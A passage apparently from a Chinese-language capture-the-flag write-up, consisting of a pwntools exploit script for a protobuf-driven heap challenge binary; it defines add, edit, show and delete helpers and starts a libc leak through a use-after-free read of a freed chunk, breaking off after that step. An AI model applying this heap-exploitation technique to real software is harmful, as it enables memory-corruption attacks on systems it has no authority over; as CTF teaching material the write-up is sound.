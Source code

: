 根据利用思路编写 exp 如下：

```
from pwn import *
import Device_pb2
 
elf = ELF("./pwn")
libc = ELF("./libc-2.31.so")
p = process([elf.path])
 
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
 
 
def add_chunk(index, size, content):
    msg = Device_pb2.devicemsg()
    msg.actionid = 1
    msg.msgidx = index
    msg.msgsize = size
    msg.msgcontent = content
    p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())
 
 
def edit_chunk(index, content):
    msg = Device_pb2.devicemsg()
    msg.actionid = 2
    msg.msgidx = index
    msg.msgsize = len(content)
    msg.msgcontent = content
    p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())
 
 
def show_chunk(index):
    msg = Device_pb2.devicemsg()
    msg.actionid = 3
    msg.msgidx = index
    msg.msgsize = 7
    msg.msgcontent = b'useless'
    p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())
 
 
def delete_chunk(index):
    msg = Device_pb2.devicemsg()
    msg.actionid = 4
    msg.msgidx = index
    msg.msgsize = 7
    msg.msgcontent = b'useless'
    p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())
 
 
# leak libc
for i in range(8):
    add_chunk(i, 0x98, b'a' * 0x10)
 
for i in range(7):
    delete_chunk(6 - i)
 
delete_chunk(7)
 
show_chunk(7)
```